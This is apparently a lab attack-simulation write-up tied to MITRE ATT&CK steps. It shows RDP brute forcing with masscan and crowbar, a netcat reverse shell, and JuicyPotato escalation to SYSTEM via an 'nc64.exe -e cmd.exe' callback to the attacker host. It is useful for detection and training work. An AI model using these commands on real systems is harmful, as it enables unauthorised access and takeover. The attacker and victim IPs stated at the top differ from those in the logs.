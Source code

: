# CASE1

**Attacker :** 192.168.106.141
**Victim :** 192.168.106.142



## STEP1. Initial Access : External Remote Services(T1133)
Using masscan for RDP port scanning and crowbar for Dictionary Attacks to attempt RDP logon.


> Attack Tools : masscan, crowbar
>- masscan - port scanner : https://github.com/robertdavidgraham/masscan
>- Crowbar - Brute forcing tool : https://github.com/galkan/crowbar
>- Support : OpenVPN, Remote Desktop Protocol (RDP) with NLA support, SSH private key authentication, VNC key authentication

### Attacker

![image](https://github.com/user-attachments/assets/f94a5ef2-97ab-4edd-8a95-6144de8257d4)

_[RDP port scan with masscan tool]_


```shell

# masscan 192.168.106.142 -p1025-65535 --rate-1000000

┌──(root㉿kali)-[/home/kali/Attack_Tool/CASE1]
└─# masscan 192.168.106.142 -p30000-30040 --rate-1000000

rate-1000000: empty parameter
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2025-01-10 21:32:54 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [41 ports/host]
Discovered open port 30039/tcp on 192.168.106.142

```


![image](https://github.com/user-attachments/assets/d5e815a5-20b5-4d2b-8fbb-6638e739ce00)

_[RDP logon Dictionary Attack with crowbar tool]_


```shell
┌──(root㉿kali)-[/home/kali/Attack_Tool/CASE1]
└─# ls
bunny.exe  crowbar  mimikatz.exe  nc64.exe  passlist.txt  userlist.txt
                                                                                                          
┌──(root㉿kali)-[/home/kali/Attack_Tool/CASE1]
└─# cat userlist.txt 
test
iglootest
testuser
user
admin
administrator
manager
boss
main                                                                                                      
┌──(root㉿kali)-[/home/kali/Attack_Tool/CASE1]
└─# cat passlist.txt 
qwer1234!
123456
qwer1234
administrator
admin
test
manager
test1234
test1234!
12345678
Administrator                                                                                             
┌──(root㉿kali)-[/home/kali/Attack_Tool/CASE1]
└─# cd crowbar       
┌──(root㉿kali)-[/home/kali/Attack_Tool/CASE1/crowbar]
└─# ./crowbar.py -b rdp -s 192.168.106.142/32 -U ../userlist.txt -C ../passlist.txt -p 30039
2025-01-10 17:15:30 START
2025-01-10 17:15:30 Crowbar v0.4.3-dev
2025-01-10 17:15:30 Trying 192.168.106.142:30039
2025-01-10 17:15:36 RDP-SUCCESS : 192.168.106.142:30039 - testuser:qwer1234
2025-01-10 17:15:45 STOP

```

> Attack Tools : xfreerdp
> - xfreerdp: https://linux.die.net/man/1/xfreerdp
> - An X11 Remote Desktop Protocol (RDP) client that is part of the FreeRDP project, enabling RDP access in Linux environments.

![image](https://github.com/user-attachments/assets/238f67a0-ac40-46ec-a21f-eddec0fef27f)

_[Connect RDP to xfreerdp]_



![image](https://github.com/user-attachments/assets/a3174dd7-ab96-48c8-a5a7-16bf96dec33e)
_[The victim's credentials don't match ]_



## STEP2. Execution : Command and Scripting Interpreter(T1059)
Download netcat and JuicyPotato Attack Tool on the attacker’s server, establish reverse shell through netcat to remotely execute cmd commands.


### Attacker
```shell
# cd /home/kali/Attacker_Tool/CASE1
# python3 -m http.server 8080

```
### Victim
![image](https://github.com/user-attachments/assets/2855a712-9824-4c9b-aac6-e0417984f23a)
_[ Download netcat and JuicyPotato(bunny.exe) from Attacker server]_


![image](https://github.com/user-attachments/assets/12db89a9-05b9-451b-bece-0faf15d44333)
_[Detection Windows Defender Security Center]_


### Attacker
![image](https://github.com/user-attachments/assets/951621b2-94ba-4249-acbd-77b61b14c48f)
_[Connect reverse shell to 4445 port using netcat(nc64.exe)]_



![image](https://github.com/user-attachments/assets/ffdb0774-7d1a-4878-9dcd-d420fe71727b)
_[ Verify testuser account’s permissions and run cmd with Administrator privilege Enter testuser password stolen by Dictionary Attack ]_


```shell
┌──(root㉿kali)-[/home/kali]
└─# nc -lvp 4445
listening on [any] 4445 ...
192.168.106.137: inverse host lookup failed: Unknown host
connect to [192.168.106.138] from (UNKNOWN) [192.168.106.137] 50863
Microsoft Windows [Version 10.0.17134.1]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\testuser>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled

C:\Users\testuser>runas /user:Administrator "cmd"
runas /user:Administrator "cmd"
Enter the password for Administrator: 

C:\Users\testuser>powershell
powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\testuser> Start-Process cmd -Verb RunAs
Start-Process cmd -Verb RunAs
PS C:\Users\testuser> 

```

![image](https://github.com/user-attachments/assets/44e9409f-e927-4d60-8209-a8c826e4d712)
_[Administrator Permission Console(cmd)]_

![image](https://github.com/user-attachments/assets/ebe13ef1-0115-49c3-876e-23cbc4af3d4e)
_[ Check permission 'SeImpersonatePrivilege' for privilege escalation vulnerabilities ]_



```shell
┌──(root㉿kali)-[/home/kali]
└─# nc -lvp 4445
listening on [any] 4445 ...
192.168.106.137: inverse host lookup failed: Unknown host
connect to [192.168.106.138] from (UNKNOWN) [192.168.106.137] 50877
Microsoft Windows [Version 10.0.17134.1]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\testuser>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled

C:\Users\testuser>

```




## STEP3. Privilege Escalation : Abuse Elevation Control Mechanism(T1548)
Escalate to SYSTEM privilege using the privilege escalation tool JuicyPotato.


> Attack Tools : JuicyPotato(bunny.exe)

![image](https://github.com/user-attachments/assets/0460906c-9835-4cab-9f32-7ab4386faee0)
_[ Using JuicyPotato(bunny.exe) to steal SYSTEM privilege ]_


```shell
c:\Users\testuser>bunny.exe -l 4445 -t * -p C:\Windows\System32\cmd.exe -a "/c C:\Users\testuser\nc64.exe -e cmd.exe 192.168.106.138 9999"
bunny.exe -l 4445 -t * -p C:\Windows\System32\cmd.exe -a "/c C:\Users\testuser\nc64.exe -e cmd.exe 192.168.106.138 9999"
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 4445
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Users\testuser>


```



